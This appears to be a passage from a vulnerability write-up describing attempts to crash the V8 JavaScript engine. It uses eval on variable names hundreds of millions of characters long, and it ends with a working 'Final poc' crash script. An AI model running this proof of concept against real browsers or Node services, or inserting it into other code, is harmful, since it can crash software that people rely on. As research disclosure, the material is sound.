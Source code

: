 My next ideas was check correct size for max String in v8. ( I know that I could find it in code but I decided to do it JS style).
### 1.
```
var name_function = "a".repeat(262144);
for(var i=0;i<2146435073;i+=1048576){
        name_function += 'x'.repeat(1048576)
        eval("var "+name_function+" = new Function('return');");
        console.log("Length is "+name_function.length.toString());
}
```
With "slightly" bigger first_value.
```
var first_value = 169869312;
var name_function = "a".repeat(first_value);
for(var i=first_value;i<2146435073;i+=1048576){
        name_function += 'x'.repeat(1048576)
        eval("var "+name_function+" = new Function('return');");
        console.log("Length is "+name_function.length.toString());
}
```

### 2.
```
final_size = 0xffffffff;
cur_size = 0;
var name_function = "";
while (cur_size < final_size){
        name_function+="a";
        cur_size+=1;
}
console.log("Length is "+name_function.length.toString());
eval("var "+name_function+" = new Function('return');");

```

Based on those failed attempts I decided to change the approach and add everything step by step.
That idea lead to this poc and this one crashed it "good way" :)

## Final poc:
```js
var first_value = 159383552;
var name_function = "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
console.log("Length is "+name_function.length.toString());
eval("var "+name_function+" = new Function('return');");
console.log("Length is "+name_function.length.toString());
```

